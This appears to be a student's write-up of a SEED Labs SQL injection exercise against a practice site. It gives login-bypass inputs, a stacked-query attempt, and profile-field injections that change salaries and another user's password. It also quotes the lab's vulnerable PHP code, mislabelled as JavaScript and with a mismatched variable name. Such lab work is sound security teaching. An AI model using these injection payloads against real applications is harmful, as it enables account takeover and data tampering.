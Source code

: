 # SQL-Injection-attack-lab

### Task 1:

	Log in MYSQL:
  
//code
```sql

mysql -u root -pseedubuntu

mysql> use Users;
    
mysql> show tables;
    
	Use such a SQL query:

select * from credential where Name='Alice';

```

![Untitled](Pics/task1.png)

### Task 2:

--> Task 2.1

	.USERNAME: "Admin' #"
  
	.PASSWORD: "xyz" (here is password is optional)

	We will result in SQL Query
  
//code
```sql
SELECT id, name, eid, salary, birth, ssn, address, email, nickname, password
    
FROM credential
    
WHERE name='Admin' #' && password='xyz'
```
    
--> Task 2.2

	1- Write Code on Terminator in Seed Lab:
  
	curl 'http://www.seedlabsqlinjection.com/unsafe_home.php?username=Admin%27%20%23';
  
	2- Copy the HTML code.
  
	3- Make a new file in location "file:///home/seed/Documents/temp.html"
  
	4. Run this location on browser

![Untitled](Pics/task2.2.png)

--> Task 2.3

	inject statment to append a row to current database:
  
//code

```sql

INSERT INTO credential (name,eid) VALUES('abc', '17422');
  
After row inserted, go to browser and input as:
  
.USERNAME: "1=1; INSERT INTO credential (name,eid) VALUES('abc','17422') #"
  
.PASSWORD: "" (blank field)
```

![Untitled](Pics/task2.3.png)

(optional lines)

	PHP's mysqli extension, involes mysqli::query API to handle SQL statement,
  
doesn't support for multiple queries with in the same run. Of course, the design of this API 
attributes to concern of SQL injection.

### Task 3

EDIT profile can be run on line "http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php" to browser

--> Task 3.1

	1- Login as Username= 'Alice' && Password = xyz,
  
	2- Then edit the link to browser http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php
  
	3- Update Phone Number as ', Salary=1000000 and save.
  
--> Task 3.2

	1- Login as Username= 'Boby' #' and then open edit profile
  
	2- Update Phone Number: ',Salary=0 and remaining unchanges



	Login as Alice
  
		Assume login as Boby and keep Alice login too. Open Alice profile edit
    
	Update Phone Number: ', Salary=1 where name='Boby' #
  
  ![Untitled](Pics/task3.2.png)
  
--> Task 3.3

	We're login as Boby but change password of Alice
  
//backend code


```js
	$conn = getDB();
  
	// Don't do this, this is not safe against SQL injection attack
	$sql="";
  
	if($input_pwd!=''){
		
		// In case password field is not empty.
  
	$hashed_ = sha1($input_pwd);
  
		//Update the password stored in the session.
  
	$_SESSION['pwd']=$hashed_pwd;
  
	$sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',Password='$hashed_pwd',PhoneNumber='$input_phonenumber' where ID=$id;";
  
	}else{
  
		// if passowrd field is empty.
  
	$sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',PhoneNumber='$input_phonenumber' where ID=$id;";
	}
  
	$conn->query($sql);
  
	$conn->close();
  
	header("Location: unsafe_home.php");
  
	exit();
	```

Updation will be on Phone Number field;

Let Boby password as '123'. We must get SHA1 value of new password via some tool as: c0b656d5e415ca1a8e098a408f913ec229e120b6
  
Constuct Phone Number:', password='c0b656d5e415ca1a8e098a408f913ec229e120b6' where name='Boby' #
  
Save it and changes works accordingly. 

![Untitled](Pics/task3.3.png)

